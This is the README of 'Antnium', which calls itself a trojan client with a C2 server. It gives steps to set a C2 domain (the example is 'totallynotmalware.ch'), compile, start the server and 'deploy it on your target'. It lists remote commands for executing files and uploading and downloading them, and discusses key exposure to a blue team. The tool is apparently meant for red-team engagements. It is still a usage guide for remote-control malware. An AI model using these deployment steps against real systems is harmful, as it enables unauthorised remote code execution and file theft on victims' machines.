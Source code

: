 # Antnium 

```
Anti Tanium
```

There are two components: 
* Client: The actual trojan
* Server: C2 infrastructure 


## Quick How to use

Decide on a C2 IP or domain. We use `127.0.0.1:8080` here. 

Configure your campaign in `model/campaign.go`, minimum: 
* `serverUrl = "http://127.0.0.1:8080"`

Compile client and server: 
```
go get all
make compile
```

Start server:
```
server.exe --listenaddr 0.0.0.0:8080
```

Access the WebUI by opening the following URL in the browser:
```
http://localhost:8080/
```

Start client:
```
client.exe
```




Start a client on your target. 

### Notes on deployment

`campaign.go` connects a client with a specific server, which forms a campaign. 
A campaign has individual encryption and authentication keys, which are shared between
server and client. 

* Replace `127.0.0.1:8080` with your domain, e.g. `totallynotmalware.ch`.
* Put server behind a reverse proxy.


## Install 

```
$ git clone https://github.com/dobin/antnium
$ cd antnium
$ go get all
$ make compile
```

### Server

Tested on: 
* Works: Ubuntu 20.04 LTS, Go 1.13.8
* Wors: Windows 10, Go 1.16.6
* Doesnt work: Ubuntu 16.04 LTS, Go 1.6.2

```
$ make server
$ ./server --listenaddr 0.0.0.0:8080
```

Put a reverse proxy before it, make sure it supports websockets.

Result is `server.exe`. Make sure to run it in the directory where you have or expect: 
* upload/
* static/
* db.*.json

### Client

Configure your campaign in `model/campaign.go`: 
* `serverUrl = "http://totallynotmalware.ch"`

Compile on windows:
```
make prodclient
```

Deploy it on your target.


### Commands

* exec: Execute a file
* fileupload: upload a file 
* filedownload: download a file 
* dir: directory content

For a complete list, see `doc/protocol.md`.

## Server

* Runs on a specific port
* uploads files from client via REST to `./upload/`
* serves directory `./static/`

### DB

The server stores its data in the files: 
* db.packets.json
* db.clients.json
regularly. It will load it on start automatically. 

Use: 
* `server.exe --dbReadOnly` to only read but not update
* `server.exe --dbWriteOnly` to only write but not read



## Security 

The client and server share a static encryption key, and a API key. 

If the blue team manages to extract the API key from a HTTP proxy or client binary, they
gain access to the server API, which enables them to:
* flood the server with fake clients 
* observe public executed commands easily 

If the blue team manages to extract the encryption key from a client binary, they can: 
* decrypt all past communications of all client instances (if they have proxy log)
* Issue new commands to existing clients (if they can perform HTTP MITM on proxy)

This is intentional. The campgain is only protected against outsiders, not a motivated blue team. 

The admin API is protected by a separate AdminApi key, not found in the client. 

## Packet Types

From client to server:

* Ping
  * sent from client to server upon start
  * only packet not initiated by server
  * only packettype the server knows about
  * not logged or broadcasted (anti-spam)
  * contains host info
  * data available through /admin/clients API

From server to client: 
* exec
* iOpen
* iIssue
* fileUpload
* fileDownload


## Testing

```
go test ./...
go test ./server
```